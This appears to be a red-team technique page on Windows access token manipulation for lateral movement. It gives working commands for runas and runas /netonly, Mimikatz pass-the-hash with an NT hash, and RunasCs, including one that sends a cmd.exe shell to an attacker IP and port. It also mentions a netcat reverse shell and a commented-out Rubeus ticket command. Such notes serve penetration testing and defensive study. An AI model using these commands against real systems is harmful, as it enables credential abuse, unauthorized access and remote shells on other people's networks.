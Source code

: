```yaml
---
label: Access Token Manipulation
subLabel: (RunAs, RunAsCs)
---
```


# Token Manipulation for Lateral Movement

> **Requirements**
>
> * Credentials (password, NT hash) of the target user.

Token Manipulation allows you to run a process (e.g. cmd) as another user and get its permissions on   the network. It can be used for lateral movement in conjunction with other techniques if, for example, the target user is a local administrator on some other machine.

## RunAs (using password)

> **IMPORTANT**: RunAs requires plaintext password.

RunAs is a built-in Windows tool for token manipulation. It allows you to run a process with another user's access token. In practice, this means obtaining the rights of another user. Each time, a password prompt is displayed and **you have to enter the password of the target user**. The password is verified before creating the process using SAM (for local users) or Domain Controller (for domain users).

The process created by RunAs has logon of the **Interactive type** (reusable credentials are available) and access token of the target user (`whoami` returns target user).

> **NOTICE**: This is very useful in conjunction with built-in commands that do not have the ability to specify a user and password (e.g. `sc.exe` or `schtasks.exe`). With `RunAs` you are able to use these commands as another user and perform lateral movement.

```powershell
# Using password
runas /u:$domain\$target_user cmd.exe
```

### RunAs /netonly

Sometimes you have a valid password that RunAs cannot verify (e.g. local user of an other machine) but it can be used to perform network connections. The `/netonly` flag specifies that the **provided credentials are for remote access only and Windows doesn't validate them**.

The process created by `runas /netonly` has logon of the **NewCredentials type**. It's a rare type of logon. The new logon session has the same local identity (`whoami` returns current user), but **it uses newly provided credentials for other network connections**. In short, with the `/netonly` flag, you are not locally another user, but on the network you have the privileges of another user effectively.

```powershell
# Using password
runas /u:$domain\$target_user /netonly cmd.exe
```

## Mimikatz (using NT hash)

Using Mimikatz we are able to do exactly the same as `runas /netonly` but with NT hash instead of plaintext password.

```powershell
# Using NT hash
mimikatz.exe
> privilege::debug
> sekurlsa::pth /user:$target_user /domain:$domain /ntlm:$nt_hash /run:cmd.exe
```

## RunAsCs (using password)

If we don't have stable access to the machine over RDP or another more convenient method, we probably won't want to use the default `runas.exe` because it doesn't allow us to pass the password directly in the command line. Instead, we will use the specialized tool: `RunAsCs.exe` ([GitHub](https://github.com/antonioCoco/RunasCs)). This is a **custom offensive utility to run specific processes under a different user account by specifying explicit credentials**. It performs sophisticated access token manipulation under the hood.

RunAsCs has many different parameters useful in red-teaming, below we present the most useful.

> **NOTICE**: You can execute for example `nc.exe [...]` using `RunasCs` and get a reverse shell as a different user. `RunasCs` also has built-in ability (read below) to redirect standard streams of a command to a remote host.

```powershell
# Run command as a local user
RunasCs.exe $user $pass "$command"

# Run command as a domain user (logon type: 8, NetworkCleartext)
RunasCs.exe $user $pass "$command" -d $domain -l 8

# Redirect stdin/out/err of the command to a remote host
RunasCs.exe $user $pass cmd.exe -r $attacker_ip:$attacker_port
```

{/*TODO:Overpass-the-Hash, Pass-the-Ticket*/}
{/*./Rubeus.exe asktgt /user:$user /aes256:$aes /createnetonly:C\Windows\System32\cmd.exe /show /ptt*/}

## Resources

* [ATTL4S & ElephantSe4l, *Understanding Windows Lateral Movement*](https://attl4s.github.io/assets/pdf/Understanding_Windows_Lateral_Movements.pdf)
